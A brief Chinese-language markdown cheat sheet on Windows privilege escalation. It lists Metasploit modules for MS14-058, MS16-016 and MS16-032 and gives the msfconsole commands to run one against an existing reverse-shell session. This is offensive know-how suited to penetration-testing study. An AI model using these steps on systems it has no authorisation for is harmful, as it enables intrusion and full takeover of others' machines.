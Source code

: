 # windows提权操作

## 常用提权模块

```
ms14_058 内核模式驱动程序中的漏洞库能允许远程代码执行
ms16_016 WebDAV 本地提权漏洞（CVE-2016-0051）
ms16_032 MS16-032 Secondary Logon Handle 本地提权漏洞
```

### ms14_058提权使用

前提 需要拿到一个msf反弹的shell

此漏洞是本地提权漏洞,需要拿到一个shell

```
search ms14_058
use 0  # 使用此漏洞模块
set sessions id
run # 直接运行
```

### ms16_016提权使用 && ms16_032 方法与上面的一样



